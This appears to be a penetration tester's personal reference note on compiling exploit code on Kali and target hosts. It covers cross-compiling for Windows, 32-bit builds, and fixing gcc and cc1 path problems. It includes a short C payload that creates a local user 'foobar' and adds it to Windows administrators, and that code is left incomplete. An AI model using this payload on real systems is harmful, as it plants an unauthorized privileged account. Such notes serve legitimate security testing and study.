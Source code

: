 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Compiling

gcc not found on target?  Try:

```bash - target
find / -name gcc -type f 2>/dev/null
```

OR

==Remember you can locally compile if needed!==

64 bit compiling:
```bash - kali
gcc 15285.c -o 15285
```

i686 compiling:
```bash - kali
gcc 15285.c -o 15285 -m32
```

#### Multilib installation
```bash - kali
sudo apt-get install gcc-multilib -y
```

#### Windows cross compiling
![[Pasted image 20211230173000.png]]

```bash - kali
i686-w64-mingw32-gcc exploit.c  -o exploit -lsw2_32
```

```bash - kali
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545
```

Compile code to add new user to administrators:
adduser.c:
```c - kali
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user foobar Pass123 /add");
i = system ("net localgroup administrators foobar /add");
```

```bash - kali
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### cc1 No such file or directory

![[Pasted image 20220220205911.png]]

```bash - target
locate cc1
```
OR
```bash - target
find / -iname cc1 2> /dev/null
```

> /usr/lib/gcc/i686-linux-gnu/5/cc1

Add ```/usr/lib/gcc/i686-linux-gnu/5/``` to PATH

```bash - target
export PATH="/usr/lib/gcc/i686-linux-gnu/5/:$PATH"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
